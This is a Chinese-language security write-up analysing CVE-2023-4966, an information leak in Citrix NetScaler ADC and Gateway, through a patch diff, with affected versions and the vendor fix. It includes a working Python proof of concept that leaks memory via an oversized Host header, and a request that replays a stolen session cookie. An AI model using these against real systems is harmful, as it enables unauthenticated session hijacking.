



# CVE-2023-4966 Citrix NetScaler ADC & Gateway 信息泄露漏洞 - 先知社区

CVE-2023-4966 Citrix NetScaler ADC & Gateway 信息泄露漏洞

- - -

## 一、漏洞概述

漏洞编号：CVE-2023-4966

影响的版本：

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

影响厂商：美国思杰（Citrix）公司

厂商官网地址：[https://www.citrix.com/](https://www.citrix.com/)

漏洞说明：NetScaler ADC 和 NetScaler Gateway 是美国思杰（Citrix）公司的产品。Citrix Gateway 是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC 是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问/oauth/idp/.well-known/openid-configuration 路由并往 HOST 字段发送大量数据从而泄露缓冲区信息，其中可能包含 session cookie 相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

## 二、漏洞分析详情

我们选择 NetScaler Gateway 的 13.1-49.15 和 13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns\_aaa\_oauth\_send\_openid\_config 和 ns\_aaa\_oauthrp\_send\_openid\_config

更新前后代码的主要差异如下：

更新前：

```bash
iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```

更新后：

```bash
uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}
```

该代码段落在访问 /oauth/idp/.well-known/openid-configuration路由的时候将被调用，其逻辑是通过调用 snprintf() 函数构造一个 json 数据并通过 ns\_vpn\_send\_response() 函数形成 http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**

正常访问 /oauth/idp/.well-known/openid-configuration路由的返回界面如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113170151-493450b2-8203-1.jpg)

snprintf() 函数虽然通过第二个参数限制了 print\_temp\_rule 对应的字符串的最大长度，但是 snprintf() 函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000，snprintf() 函数的返回值可以大于 0x20000

ns\_vpn\_send\_response() 函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print\_temp\_rule 变量之后的缓冲区中的信息能够被带入 response 当中

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host 字段插入大量数据，从而使得返回的 response 中带上缓冲区信息，导致信息泄露。

## 三、漏洞利用脚本

```bash
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)
```

在 response 中可能会包含 长度为 65 或 32 的 session cookie，比如：

```bash
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113120657-164da6cc-81da-1.png)

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```bash
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

​

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113170344-8c2c4af0-8203-1.jpg)

## 四、漏洞影响

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

**前提条件：**为了利用该漏洞，Citrix 设备必须设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器

## 五、修复方案

官方最新版本已修复此漏洞。

下载地址为：

[https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)

\[[https://www.citrix.com/downloads/citrix-gatewa](https://www.citrix.com/downloads/citrix-gatewa)
